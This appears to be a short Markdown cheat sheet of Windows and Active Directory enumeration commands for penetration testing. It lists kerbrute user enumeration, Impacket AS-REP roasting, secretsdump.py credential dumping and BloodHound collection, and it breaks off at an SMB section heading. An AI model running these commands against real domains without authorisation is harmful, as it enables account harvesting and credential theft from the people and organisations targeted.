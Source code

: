 # Enumerating things on Windows

## Active Directory

### Kerbrute

```sh
kerbrute userenum --dc domaincontroller -d domain.tld /path/to/userlist
```

### Impacket

- ASRepRoast
```sh
/usr/local/bin/GetNPUsers.py domain.tld/ -dc-ip domaincontroller -usersfile validuserlist
```

- Dump Secret
```sh
/usr/local/bin/secretsdump.py -dc-ip 0.0.0.0 domain.tld/username:password@0.0.0.0
```

### Bloodhound

```
pip3 install bloodhound
python3 -m bloodhound -d domain.tld -u username -p "password" -gc dc.domain.tld -c all -ns 0.0.0.0
```

## SMB

### Enum4Linux

- Enumerate SMB Shares
  